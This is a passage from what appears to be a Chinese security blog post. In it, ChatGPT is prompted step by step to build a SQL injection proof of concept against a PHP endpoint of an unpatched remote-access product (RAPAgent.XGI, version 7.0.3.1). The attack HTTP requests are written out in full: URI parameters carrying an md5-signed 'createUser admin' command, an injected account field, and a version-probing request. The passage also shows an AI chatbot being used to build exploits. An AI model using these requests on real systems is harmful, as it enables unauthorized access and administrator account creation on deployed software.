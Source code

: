 >
> ```http
> POST /your_script.php HTTP/1.1
> Host: target_site.com
> Content-Type: application/json
> Content-Length: ...
> 
> {"account": "test\" OR \"1\"=\"1","userPwd": "any_password","userGroupId": "any_group_id"}
>   ```
>   
>   这个POST请求将在目标站点上触发该SQL盲注漏洞。为了防止这类SQL注入攻击，建议使用预处理语句和参数化查询，以及更新的数据库扩展，如`mysqli`或`PDO`。

> 问：请基于如上 POC 进行改进，注意 PHP 代码中的几个参数：key、initParams、sign，提示这三个参数在 POST 请求的位置不位于 body 部分，而是位于 URI 位置。

> **答**：根据提示，我们需要将`key`、`initParams`和`sign`参数放在URI中，并将`account`、`userPwd`和`userGroupId`放在请求的body部分。这里是一个改进后的POC，其中包含了`initParams`、`key`和`sign`参数在URI中的设置。
>
> 假设我们已经知道`key`的值为`inner`，这意味着`keyVal`为`Realor`，并且已经获取了合适的`initParams`。为了生成`sign`值，我们需要计算`md5($initparams . $keyVal)`。
>
> 以下是一个包含`initParams`、`key`和`sign`参数的示例URI：
>
> ```
> /your_script.php?initParams=command_createUser__user_admin__pwd_password&key=inner&sign=5f1c9d2d2b3a7e1e23b8e767c53d12f6
> ```
>
> 现在我们需要构造一个包含恶意`account`值的JSON格式的POST请求：
>
> ```http
> POST /your_script.php?initParams=command_createUser__user_admin__pwd_password&key=inner&sign=5f1c9d2d2b3a7e1e23b8e767c53d12f6 HTTP/1.1
> Host: target_site.com
> Content-Type: application/json
> Content-Length: ...
> 
> {"account": "test\" OR \"1\"=\"1","userPwd": "any_password","userGroupId": "any_group_id"}
>   ```
>   
>   这个POST请求将在目标站点上触发该SQL盲注漏洞。为了防止这类SQL注入攻击，建议使用预处理语句和参数化查询，以及更新的数据库扩展，如`mysqli`或`PDO`。

> 点评：ChatGPT 回答的效果取决于提问者提出问题的质量，学会提问，能够清晰地表述自己的问题这是一个关键。如上回答已经很接近正式的 POC 了，至少它将 initParams 参数给构造出来了。

### 漏洞利用

那么使用 ChatGPT 作为辅助再结合人本身的能力，可以较为轻松地分析构造出真正的 POC。

首先需要说明的是，该漏洞目前影响最新 7.0.3.1 版本，如下请求可以获取版本号。

```http
GET /RAPAgent.XGI?CMD=GetClientExeVer HTTP/1.1
Host: 192.168.21.89:8081
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.77 Safari/537.36
Accept: application/json
Accept-Encoding: gzip


```
